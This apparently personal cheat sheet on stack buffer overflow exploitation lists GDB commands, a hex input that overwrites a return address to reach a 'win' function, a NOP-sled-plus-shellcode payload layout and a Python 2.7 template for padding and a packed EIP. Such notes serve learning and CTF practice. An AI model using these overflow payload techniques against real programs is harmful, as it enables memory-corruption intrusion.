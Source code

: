 # GDB

- set disassembly-flavor intel -> 
- disassemble main - get all instructions from a function
- x win / p win -> get address of the "win" function
- - break *<address> - set breakpoint
- r < <(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x67\x05\x40") -> run program with input interpreted as hex. !ATTENTION! little endian vs big endian
- info registers -> check registers ( here while breakpoint was hit)

## Payload format
- (NOP * no_of_nops + shellcode + random_data * no_of_random_data + shellcode_memory_address)

## Construvting payload - python2.7
```
import struct

padding = "A" * 4 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4 + "H" * 4 + "I" * 4 + "J" * 4 + "K" * 4 + "L" * 4 + "M" * 4 + "N" * 4 + "O" * 4 + "P" * 4 + "Q" * 4 + "R" * 4 + "S" * 4 + "T" * 4 + "U" * 4 + "V" * 4 + "W" * 4 + "X" * 4 + "Y" * 4 + "Z" * 4
#proper padding value calculated from gdb crash point - EIP address
#padding =

ebp = "AAAA"
shellcode_address = 0x00
eip = struct.pack("I", shellcode_address)

print padding+ebp+eip
```

